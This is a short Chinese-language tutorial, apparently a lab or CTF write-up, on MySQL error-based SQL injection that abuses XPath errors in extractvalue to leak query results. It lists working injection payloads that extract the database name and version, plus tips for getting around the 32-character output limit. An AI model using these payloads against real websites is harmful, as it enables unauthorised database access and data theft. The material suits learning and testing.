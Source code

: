 ![image-20220219230924501](../../images/image-20220219230924501.png)

可以看到这个报错回显在页面上，可能有sql注入。

利用xpath语法错误来进行报错注入主要利用`extractvalue`和`updatexml`两个函数。
使用条件：**mysql版本>5.1.5**



extractvalue函数

```
正常语法：extractvalue(xml_document,Xpath_string);
第一个参数：xml_document是string格式，为xml文档对象的名称
第二个参数：Xpath_string是xpath格式的字符串
作用：从目标xml中返回包含所查询值的字符串
```

第二个参数是要求符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里，因此可以利用。

常见用法：

```
id=" and(select extractvalue("anything",concat('~',(注入语句))))
id=" and(select extractvalue(1,concat('~',(select database()))))
id=" and(select extractvalue(1,concat(0x7e,@@version)))
```

```
注：
0x7e  是~的asccii码
concat(‘a’,‘b’)=“ab”
version()=@@version
‘~‘可以换成’#’、’$'等不满足xpath格式的字符
extractvalue()能查询字符串的最大长度为32，如果我们想要的结果超过32，就要用substring()函数截取或limit分页，一次查看最多32位
```



![image-20220219233815419](../../images/image-20220219233815419.png)
